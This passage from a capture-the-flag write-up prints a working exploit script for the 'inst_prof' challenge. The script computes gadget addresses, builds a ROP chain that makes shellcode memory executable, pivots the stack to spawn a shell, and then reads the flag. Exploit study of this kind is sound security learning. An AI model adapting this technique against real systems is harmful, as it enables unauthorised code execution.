 We have such a gadget located on 0xbc3 offset, so we can use it in our ROP chain.

Below you can see the rest of the script - as you can read in the comments it creates a ROP chain that sets up argument for `make_page_executable`, calls it and jumps into the shellcode which spawns a shell. It doesn't use anything that hasn't been explained before.

```python
##### Below we put our ROP chain on the stack (r13 points to some stack region):
# [r13 +8] - address of `pop rdi; pop` gadget
# [r13+16] - mmap'ed memory address, pop rdi will eat it
# [r13+24] - make_page_executable - changes memory region to readable and executable
# [r13+32] - address of readable and executable memory that contains our shellcode

##### saving shellcode/mmap'ed memory region address to the stack
send_instr('mov [r13+16], r14') # saving shellcode address so `pop rdi` gets it
send_instr('mov [r13+32], r14') # saving shellcode so rop jumps to it

##### gets `pop rdi; pop` gadget address
# rsp  0x7ffd907db1d0 —▸ 0x55cb935cfb18 (do_test+88) ◂— rdtsc
send_instr('mov r14, [rsp]') # r14 will have do_test+88 address = 0xb18
# 0xbc3-0xb18 = 171 - we need to advance r14 by 171
send_instr('lea r15, [r14+127]')    # r15 = 0xb18 + 127 = 0xb97
send_instr('mov r14, r15')          # r14 = r15 = 0xb97
send_instr('lea r15, [r14+44]')     # r15 = 0xb97 + 44 = 0xbc3 (`pop rdi; pop` gadget addr)
send_instr('mov [r13+8], r15')      # save gadget address to the stack

###### gets `make_page_executable` address (0xa20) to r13+24
# 06:0030│      0x7fff73937360 —▸ 0x55573d395aa3 (read_n+35) ◂— mov    byte ptr [rbx - 1], al
# 0f:0078│ rbp  0x7fff739373a8
send_instr('mov r14, [rbp-72]')     # r14 = addr —▸ aa3
send_instr('lea r15, [r14-127]')    # r15 = 0xaa3 - 127 = 0xa24
send_instr('mov r14, r15')          # r14 = r15 = 0xa24
send_instr('lea r15, [r14-4]')      # r15 = 0xa24 - 4 = 0xa20
send_instr('mov [r13+24], r15')     # save `make_page_executable` addr to the stack

###### "MAKE ROPCHAIN GREAT AGAIN!" - executes our rop chain
send_instr('lea rsp, [r13+8]')

p.interactive()
```

We can see full script in action below:

<script type="text/javascript" src="https://asciinema.org/a/Z9ByJ25GMQJiHr57FXVOk6QSD.js" id="asciicast-Z9ByJ25GMQJiHr57FXVOk6QSD" async></script>

When launched on the server we could get the flag:
```
$ ls
flag.txt
inst_prof
$ cat flag.txt
CTF{0v3r_4ND_0v3r_4ND_0v3r_4ND_0v3r}
```
